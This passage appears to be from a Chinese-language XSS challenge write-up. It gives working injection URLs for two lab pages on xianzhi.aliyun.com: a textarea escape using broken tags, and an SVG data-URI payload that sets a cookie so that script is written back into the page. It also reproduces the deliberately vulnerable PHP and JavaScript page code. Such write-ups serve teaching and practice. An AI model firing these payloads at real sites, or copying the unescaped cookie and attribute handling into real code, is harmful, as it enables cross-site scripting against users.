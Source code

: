 输出点在textarea标签中，没办法闭合，绕的思路接近以前的一种通过xss auditor来杀页面内原本正常的标签，在ie里我们可以通过构造`<textare>`来杀掉页面内的标签，构造js。

```
http://xianzhi.aliyun.com/xss18.php?input=<textarea><img%20src=1%20on<script>error=alert(document.domain)>
```

# Party #

```
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<script>

function getCookie(cname) {
    var name = cname + "=";
    var decodedCookie = decodeURIComponent(document.cookie);
    var ca = decodedCookie.split(';');
    for(var i = 0; i < ca.length; i++) {
        var c = ca[i];
        while (c.charAt(0) == ' ') {
            c = c.substring(1);
        }
        if (c.indexOf(name) == 0) {
            return c.substring(name.length, c.length);
        }
    }
    return "";
}

function checkCookie() {
    var user=getCookie("username");
    if (user != "") {
        document.write("欢迎, " + unescape(user));
    } else {
         alert("请登陆")
    }
}

</script>
</head>
<body onload="checkCookie()">
<?php echo '<img name="avatar" src="'.str_replace('"',""",$_GET["link"]).'" width="30" height="40">';?>
</body>
</html>
```

exp
```
http://xianzhi.aliyun.com/xss19.php?link=data:image%2fsvg%2bxml,<meta%20xmlns=%27http://www.w3.org/1999/xhtml%27%20http-equiv=%27Set-Cookie%27%20content=%27username=%25%32%35%33%43script%25%32%35%33%65alert%25%32%35%32%381%25%32%35%32%39%25%32%35%33%43%25%32%35%32%66script%25%32%35%33%65%27%20/>
```
